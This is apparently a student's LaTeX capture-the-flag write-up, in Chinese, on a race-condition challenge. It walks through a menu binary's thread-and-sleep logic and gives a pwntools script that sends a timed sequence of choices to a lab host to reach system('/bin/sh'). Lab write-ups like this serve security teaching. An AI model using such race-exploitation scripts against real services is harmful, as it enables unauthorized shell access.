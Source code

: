 \documentclass{article}
\date{2023/5/26}
\title{Race Condition}
\author{叶梓淳 520030910302}
\begin{document}
\maketitle

\section{race}
    阅读程序汇编代码，程序的主体逻辑如下：首先初始化全局变量，flag=1，a\_sleep = a = b =0。然后循环执行menu函数，提示输入1到4，分别执行不同的函数。
    \begin{enumerate}
    	\item 输入1执行menu\_go函数，如果a\_sleep = 0，则a增大5，否则a\_sleep = 0。之后将b增大2。
    	\item 输入2执行menu\_chance函数，它会创建一个线程，之后判断a > b，成立且flag = 1则首先将a\_sleep置为1，然后休眠1秒，再将flag置为0，其他情况只会执行print函数，对结果无影响。
    	\item 输入3执行menu\_test函数，当a < b时执行system("/bin/sh")函数得到flag。
    	\item 输入4执行menu\_exit函数，退出程序。
    \end{enumerate}
    
    正常情况下，要想a<b，必须执行两次menu\_go函数，且每次执行a\_sleep必须为1，但flag被修改为0之后不会再修改a\_sleep，所以这是不可能的，因此需要利用条件竞争，即menu\_chance中的休眠函数。 具体做法是在执行menu\_chance函数之后立即执行menu\_go函数，这样能利用a\_sleep已被修改为1将b增加2，紧接着执行menu\_chance函数，由于第一个线程并未执行到修改flag的指令，第二个线程会将a\_sleep再次修改为1，这些操作都在第一个线程休眠过程中进行。最后只需再次执行menu\_go函数即可将b修改为6，大于a = 5。最终脚本如下：    
    
    \begin{itemize}
        \item 脚本1
        \begin{lstlisting}{language=Python}
from pwn import *

io = remote("10.0.0.10", 40015)

io.recvuntil("Choice> ")

io.sendline(b'1')

io.recvuntil("Choice> ")

io.sendline(b'2')

io.recvuntil("Choice> ")

io.sendline(b'1')

io.recvuntil("Choice> ")

io.sendline(b'2')

io.recvuntil("Choice> ")

io.sendline(b'1 3')

io.interactive()

        \end{lstlisting}
    \end{itemize}
\end{document}
